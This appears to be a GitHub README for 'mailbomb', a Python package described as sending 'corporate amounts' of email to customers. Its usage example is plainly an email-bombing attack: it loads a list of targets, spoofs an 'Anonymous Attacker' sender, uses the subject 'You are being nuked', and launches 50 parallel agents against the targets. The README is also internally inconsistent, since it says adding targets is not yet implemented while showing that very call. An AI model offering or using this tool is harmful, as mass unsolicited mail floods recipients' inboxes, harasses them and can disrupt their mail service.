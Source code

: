 # mailbomb
## A python package to send corporate amounts of email quickly and easily

This python package (for Python 3.6) allows you to quickly send massive amounts of email to your customers.

## Installation

The package is available for install from `pip`:

    pip install mailbomb

And then you are good to go.

## Usage

Import the package in your Python script like so:

    import mailbomb.Mailbomb as mb

    nuke = mb.Mailbomb(host='smtp.example.com', port=465,
        login='user@example.com', key='vErYsEcReTpAsSkEy')
    nuke.load_target_list('targets.txt')        # Read targets line by line from a .txt-file
    nuke.remove_duplicate_targets()             # Removes duplicate targets
    nuke.add_target('target@targetdomain.com')  # Add a target manually
    nuke.add_header('From', 'Anonymous Attacker <anonymous@attacker.com>')
    nuke.add_header('Subject', 'You are being nuked. Enjoy!')
    nuke.add_header('Reply-To', 'Anonymous Attacker #2 <other@attacker.com>')
    nuke.load_html_message('message.html')
    nuke.starttls()
    nuke.launch_agents(50)
    nuke.terminate()

And the nuke will be launched. Details on adding target email addresses will follow soon as this functionality has not yet been implemented.

## Uninstallation

Uninstall the package using `pip`:

    pip uninstall mailbomb

Thank you for using this Python package!